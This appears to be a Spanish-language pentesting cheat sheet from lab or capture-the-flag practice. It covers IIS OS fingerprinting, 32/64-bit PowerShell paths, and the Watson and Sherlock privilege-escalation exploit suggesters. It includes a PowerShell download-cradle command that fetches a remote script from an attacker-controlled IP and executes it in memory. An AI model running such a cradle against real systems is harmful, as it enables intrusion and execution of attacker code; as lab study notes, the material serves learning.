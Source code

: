 ## IIS OS Recon

Se puede detectar si es Windows o Linux lo que existe por detras ya que en la URL lo que pongas es case insesitive te lleva al mismo lado mientras que en Linux no.

![image](https://github.com/gecr07/Acordeon/assets/63270579/ada17927-0075-4b35-abd5-6fbc67debbc8)



## Powershell rutas

![image](https://github.com/gecr07/Acordeon/assets/63270579/1a37fd88-23c6-4976-97cd-8edc4fe90f23)

Entonces para llamar a powershell desde un proceso de 32bit y que regrese un proc de 64:

```
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe
```

Pero el HFS corre en 32 recuerda. La siguiente ruta va a lanzar el ps en 32bits

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

## PowerShell descargar a memoria 

```
powershell iex(new-object net.webclient).downloadstring('http://10.10.14.80:8000/iisfinal.txt')
```

## Watson (Exploit Suggester)

Es una herramienta para sugerencia de exploits ya descontinuada como por el 2021 aun jala para que funcione el minimo que necesita es el NET Framework 4.5.


Lo malo de esta herramienta es que se tiene que compilar en la maquina Devel ahi se muestra como lo compilan con diferentes opciones.  


![image](https://github.com/gecr07/Acordeon/assets/63270579/6a57ad18-0799-4b95-8063-782b3f5ac01f)

Pues ya esta descontinuado desde el 2021.

> https://github.com/rasta-mouse/Watson


## Sherlock (Exploit Suggester)

Esta es el predesesor de Watson y es un script en powershell ya sabes esta descontinuado casi a la par del Watson

```
Import-Module Sherlock.ps1
Y ya despues que buesque
Find-AllVulns
```
> https://github.com/rasta-mouse/Sherlock

